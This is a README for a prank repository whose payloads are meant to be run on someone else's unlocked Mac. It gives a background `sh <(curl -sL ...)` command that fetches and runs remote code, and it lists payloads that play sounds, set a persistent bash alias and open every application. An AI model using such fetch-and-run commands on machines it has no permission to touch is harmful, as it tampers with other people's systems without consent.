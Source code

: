 ### :speak_no_evil: hoku :speak_no_evil:

when someone leaves their computer unlocked, you want to do something. this is a repo of silly things you can do. they all follow the same idea. you run

`sh <(curl -sL hoku.me/xx) &`

in their terminal, where `xx` is the two-letter identifier of the prank payload.

-----
`ah`: play an airhorn sound randomly every x seconds, where x is between 0 and 800
 
`al`: change the default mac error sound to an airhorn and start a sleeper as a diversion
 
`er`: play the default mac error sound randomly every x seconds, where x is between 0 and 30
 
`fr`: play Friday by Rebecca Black on friday
 
`ls`: change the default mac error sound to an airhorn and set up a bash alias for `ls` to change it back to an airhorn if it's not already
 
`op`: sleep for 10 minutes and then open every app in /Applications 

### contributing
if you have an idea for a prank, go ahead and put in a PR :)
